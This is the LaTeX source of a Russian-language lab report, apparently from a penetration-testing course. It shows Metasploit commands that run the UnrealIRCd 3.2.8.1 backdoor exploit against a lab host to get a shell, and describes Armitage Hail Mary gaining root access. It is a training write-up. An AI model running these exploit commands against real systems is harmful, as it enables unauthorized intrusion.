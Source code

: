 \documentclass[a4paper, 14pt]{article}				%
\begin{document}
\subsection{Получение консоли с использованием уязвимости в irc}
Аналогично предыдущему пункту, существует нужный нам эксплоит под названием unreal\_ircd\_3281\_backdoor.\\
Настраиваем и запускаем эксплоит
\begin{Verbatim}[frame=single]
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOST 192.168.32.132
exploit
\end{Verbatim}

\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{rsrc/lab5_irc_result}
\caption{Результат работы  unreal\_ircd\_3281\_backdoor. Доступ к консоли получен.}
\end{figure}

\newpage
\subsection{Armitage Hail Mary}
Модуль Armitage Hail Mary предназначен для поочередного применения всех эксплоитов, применимых для выбранного хоста.
\begin{figure}[h!]
\centering
\includegraphics[width=\textwidth]{rsrc/lab5_hailmary}
\caption{Результат работы Armitage Hail Mary. root доступ получен.}
\end{figure}
\end{document}
